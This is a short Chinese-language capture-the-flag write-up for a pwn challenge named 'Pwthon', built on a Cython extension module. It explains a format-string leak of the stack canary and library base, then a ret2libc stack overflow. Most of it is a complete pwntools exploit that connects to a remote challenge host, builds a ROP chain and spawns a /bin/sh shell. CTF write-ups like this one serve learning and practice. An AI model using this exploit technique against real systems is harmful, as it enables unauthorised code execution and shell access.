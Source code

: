 ## Pwthon

在 app.cpython-37m-x86_64-linux-gnu.so 里面发现__pyx_f_3app_Welcome2Pwnthon 是直接运行之后选择 0 后出现的函数，里面给了一个地址，一个格式化字符串漏洞和一个栈溢出，格式化禁了 $。

看汇编发现这个地址是__pyx_f_3app_get_info 的地址，可以通过这个得到题目给出的这个库的 base。在栈溢出处泄露 libc，发现 libc 版本为 2.27-3ubuntu1.5_amd64，跟上一题一样。此外发现 libcbase 和前面泄露的 base 固定差 0xf2a000。因此再在栈溢出处搞 ret2libc 即可。

```python
from pwn import*
p = remote("47.93.188.210",16282)
libc = ELF("./libc-2.27.so")
# p = process("python3 ./main.py")
p.recv()
p.sendline("0")
p.recvuntil("0x")
base = int(p.recv(12),16) - 0x68b0
print(hex(base))
puts_plt = base + 0x3710
puts_got = base + 0x16078
ret = base + 0x301a
rdi = base + 0x3f8f
rsi = base + 0x3cd9
str_ = base + 0x137e8
libc_base = base + 0xf2a000
system = libc_base + libc.symbols["system"]
puts = libc_base + libc.symbols["puts"]
str_bin_sh = libc_base + libc.search(b"/bin/sh").__next__()
payload = b" %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %ptt%p "
# payload = b"%6$llx"F2A
# payload = b'.%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx.'
p.sendline(payload)
p.recvuntil("tt0x")
kanaria = int(p.recv(16),16)
print(hex(kanaria))
payload = b'a'*0x108 + p64(kanaria) + b'a'*8 + p64(ret) + p64(rdi) + p64(str_bin_sh) + p64(system)
p.sendline(payload)
p.recv()
p.recv()
# p.recv()
# libc_base = u64(p.recv(6).ljust(8,b'\0')) - libc.symbols["puts"]
# print(hex(libc_base))
# print(hex(libc_base - base))
p.interactive()
```
